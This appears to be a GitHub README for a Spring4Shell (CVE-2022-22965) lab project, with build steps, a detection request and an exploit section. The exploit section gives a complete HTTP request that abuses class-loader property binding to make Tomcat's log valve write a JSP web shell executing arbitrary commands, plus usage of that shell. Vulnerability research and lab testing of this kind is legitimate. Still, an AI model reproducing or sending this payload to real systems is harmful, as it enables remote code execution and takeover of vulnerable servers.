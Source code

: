 # CVE-2022-22965(Spring4Shell)

> Blog 首发于 [CVE-2022-22965 漏洞分析-云社区-华为云](https://bbs.huaweicloud.com/blogs/345628)

## Requirements

- java 9 +
- tomcat

## Build

1. `mvn package`


## Start

1. 使用 tomcat 启动 web 项目

## POC

通过错误地设置 classloader 下的属性来触发 BindException异常让服务端返回异常即可判断是否存在漏洞，例如发送

```http
GET /?class.module.classLoader.defaultAssertionStatus=123 HTTP/1.1
Host: 127.0.0.1:39999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

HTTP/1.1 400 
Content-Type: text/html;charset=UTF-8
Content-Language: zh-CN
Content-Length: 277
Date: Fri, 08 Apr 2022 03:49:42 GMT
Connection: close

<html><body><h1>Whitelabel Error Page</h1><p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p><div id='created'>Fri Apr 08 11:49:42 CST 2022</div><div>There was an unexpected error (type=Bad Request, status=400).</div></body></html>
```

## EXP

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bcmd%7di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps%2fROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 7.223.181.36:38888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cmd: <%=Runtime.getRuntime().exec(request.getParameter(new String(new byte[]{97})))%>
```

后续再利用 `shell.jsp?a=cmd` 来执行命令